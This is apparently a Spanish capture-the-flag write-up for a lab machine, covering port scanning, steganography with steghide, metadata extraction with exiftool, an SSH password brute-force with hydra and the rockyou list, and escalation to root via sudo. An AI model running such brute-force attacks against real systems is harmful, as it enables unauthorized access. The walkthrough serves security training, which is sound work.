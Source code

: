 # Herramientas
- Nmap
- Steghide
- exiftool
- Hydra
# Procedimiento
Escaneamos con nmap y vemos que están los puertos 22 y 80 abiertos. Al entrar a la página, nos encontramos un kinder sorpresa:
![[Pasted image 20250715153547.png]]

Probamos un ataque de fuerza bruta con el usuario `kinder` y `sorpresa`, pero se ve que no hay ningún resultado con ambos.  Intentamos con huevo y chocolate. Sin embargo, tenemos el mismo resultado. 

Es por esto que debemos pensar, quizás en la imagen hay algo más... ¿no?
La descargamos y procedemos a hacer esteganografía.

Para poder ver el secreto que tiene la imagen, debemos ocupar el comando
```
steghide extract -f imagen.jpeg
```

Y nos mostrará `wrote extracted data to "secreto.txt"`
```
cat secreto.txt    
Sigue buscando, aquí no está to solución  
aunque te dejo una pista....  
sigue buscando en la imagen!!!
```

Ocupamos el comando `exiftool` para ver los metadatos de la imagen, y nos muestra el usuario. Como no tenemos nada más, hacemos fuerza bruta con hydra:
```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2  
  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-  
binding, these *** ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-15 15:54:16  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task  
[DATA] attacking ssh://172.17.0.2:22/  
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456  
1 of 1 target successfully completed, 1 valid password found  
[WARNING] Writing restore file because 5 final worker threads did not complete until end.  
[ERROR] 5 targets did not resolve or could not be connected  
[ERROR] 0 target did not complete  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-15 15:54:22
```

Y así podemos obtener acceso a la máquina, con el usuario `borazuwarah` y contraseña `123456`.

Vemos que con `sudo -l` se puede hacer todas las acciones en modo root introduciendo la misma contraseña, así que podemos hacer escalado de privilegios sin mayor problema, comprobando con `whoami`.